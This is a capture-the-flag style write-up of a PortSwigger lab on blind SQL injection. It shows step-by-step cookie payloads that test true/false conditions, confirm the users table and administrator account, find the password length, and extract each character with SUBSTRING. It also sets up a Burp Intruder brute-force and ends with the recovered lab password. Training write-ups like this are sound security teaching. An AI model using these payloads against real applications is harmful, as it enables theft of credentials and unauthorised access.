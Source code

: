 ```yaml
---
title: PortSwigger - SQLi 11 - Blind SQLi with conditional responses
date: 2023-05-17
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli, blind, clusterbomb]
img_path: /assets/img/
---
```


Difficulty: `Practitioner`

## 🎯 Goal 

This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "**Welcome back**" message in the page if the query returns any rows.

The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

To solve the lab, log in as the ``administrator`` user. 

## ✅ Solution

First, let's capture the request into Burp to see what it looks like:

````http
GET / HTTP/2
Host: <host>
Cookie: TrackingId=inef9UVjAF4GJLdj; session=86UdOy9CSRpdDtjDrCqiziIuKdAog6uR
Cache-Control: max-age=0
[...]
````

We know the query behind the ``TrackingId`` is vulnerable to blind SQLi and a ``Welcome back`` message is displayed when the query returns ``true``. 

We can test this behaviour with a basic test:

````s
TrackingId=inef9UVjAF4GJLdj' AND '1'='1;    # Welcome back
TrackingId=inef9UVjAF4GJLdj' AND '1'='2;    # Nothing
````

Let's be sure there is a `users` table:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users LIMIT 1)='a     # Welcolme back
````

Let's be sure there is an `administrator` user:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator')='a      # Welcolme back
````

Before guessing the password we have to find its length. I could automate it but usually password aren't that long :(

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a     # Welcome back: password length > 1 char
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a    # Welcome back: password length > 10 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a    # Nothing: password length <= 20 chars
````

Ok so password is between 10 and 20 chars. Let's try one by one now.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a    # Welcome back: password length = 20 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=19)='a    # Nothing: password length != 19 chars
````

The password is ``20`` characters long.

Now time to guess the password. Two possibilities:

- Manually checking every characters at every position (boring)
- Automate with Burp Intruder to send hundreds of requests for us (cool)

Even if we should always automate everything as much as we can I will still present the manual way to show how it is working.

### Manual password guessing

We will have to test one by one every character possible for every position. It's written the password only includes lowercase alphanumeric characters ([a-z][0-9]) and there are 20 positions (the password length) so it's a total of ``36 * 20 = 720`` posibilities...

Because it is too much to do manually I will only explain the principle behind: test every character for every position.

This query uses the ``SUBSTRING()`` function to extract a single character from the password, and test it against a specific value, here `a` at the position `1`. and `9` at the position `20`. 

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a      # First request
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='9     # Last request
````

Assuming I successfully sent the 720 requests without errors I should have found the password.

### Automate password guessing

I have the Burp Suite Community Edition so I have some feature and throttle limitation but it's doing the work good.

First we have to send the request to the ``Intruder`` with ``ctrl+i``.

In the ``Positions`` tab select ``Cluster bomb``.

The payload positions will be the password character position and the character to test, as the following:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
````

In the Payloads tab: 
- payload set 1 will be ``Numbers`` 
  - from ``1`` 
  - to ``20``
  - step of ``1``
- payload set 2 will be ``Brute forcer``
  - character set `abcdefghijklmnopqrstuvwxyz0123456789`
  - min length ``1``
  - max length ``1``

When everything is correctly set we can start the attack. Because the CE edition has a request rate limit of 1 per second it took 10+ minutes to end.

We can sort the result responses on their length because the responses with the Welcolme back message will be longuer than those without.

![attack responses](/psa/sqli/psa-sqli-11-1.png){: width="830" height="560" }
_Burp Cluster bomb attack results_

We obtain a table like below revealing the password!

|   1   |   2   |    3 |   4   |   5   |   6   |   7   |   8   |   9   |  10   |  11   |  12   |  13   |  14   |  15   |  16   |  17   |  18   |  19   |  20   |
| :---: | :---: | ---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|   5   |   k   |    y |   j   |   d   |   q   |   4   |   y   |   a   |   q   |   6   |   0   |   q   |   j   |   6   |   6   |   6   |   7   |   4   |   1   |

We can now log in as the ``administrator`` user using the password ``5kyjdq4yaq60qj666741``.
